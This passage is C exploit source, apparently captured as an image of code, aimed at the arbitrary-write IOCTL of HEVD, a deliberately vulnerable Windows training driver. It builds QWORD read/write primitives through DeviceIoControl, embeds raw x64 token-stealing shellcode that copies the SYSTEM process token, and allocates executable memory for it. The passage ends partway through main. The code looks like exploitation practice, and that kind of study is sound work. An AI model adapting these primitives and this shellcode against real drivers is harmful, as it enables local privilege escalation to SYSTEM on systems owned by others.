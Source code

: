 ```c
#include <Windows.h>
#include <Psapi.h>

#include <stdio.h>

#define IOCTL(Function) CTL_CODE(FILE_DEVICE_UNKNOWN, Function, METHOD_NEITHER, FILE_ANY_ACCESS)
#define HEVD_IOCTL_ARBITRARY_WRITE IOCTL(0x802)

typedef NTSTATUS(WINAPI* NtQueryIntervalProfile_t)(IN ULONG ProfileSource, OUT PULONG Interval);

typedef unsigned char      u8;
typedef unsigned short     u16;
typedef unsigned int       u32;
typedef unsigned long long u64;

typedef struct _WRITE_WHAT_WHERE {
	PVOID What;
	PVOID Where;
} WRITE_WHAT_WHERE;

void WriteQWORD(HANDLE hHEVD, PVOID what, PVOID where) {

	WRITE_WHAT_WHERE www = {
		.What  = what,
		.Where = where,
	};

	DWORD dwBytesReturned = 0;
	DeviceIoControl(
		hHEVD,
		HEVD_IOCTL_ARBITRARY_WRITE,
		&www,
		sizeof(WRITE_WHAT_WHERE),
		NULL,
		0x00,
		&dwBytesReturned,
		NULL);
}

u64 ReadQWORD(HANDLE hHEVD, PVOID what) {
	u64 val = 0;
	WriteQWORD(hHEVD, what, &val);
	return val;
}

int main(void) {

	// ========================
	// == 1. Setup Shellcode ==
	// ========================

	const u8 token_steal_shellcode[] = {
	  0x65, 0x48, 0x8b, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, 0x48, 0x8b, 0x80,
	  0xb8, 0x00, 0x00, 0x00, 0x49, 0x89, 0xc0, 0x4d, 0x8b, 0x80, 0x48, 0x04,
	  0x00, 0x00, 0x49, 0x81, 0xe8, 0x48, 0x04, 0x00, 0x00, 0x4d, 0x8b, 0x88,
	  0x40, 0x04, 0x00, 0x00, 0x49, 0x83, 0xf9, 0x04, 0x75, 0xe5, 0x4d, 0x8b,
	  0x88, 0xb8, 0x04, 0x00, 0x00, 0x4c, 0x89, 0x88, 0xb8, 0x04, 0x00, 0x00,
	  0x48, 0x31, 0xc0, 0xc3};

	LPVOID shellcode = VirtualAlloc(NULL, sizeof(token_steal_shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	if (!shellcode) ExitProcess(1);

```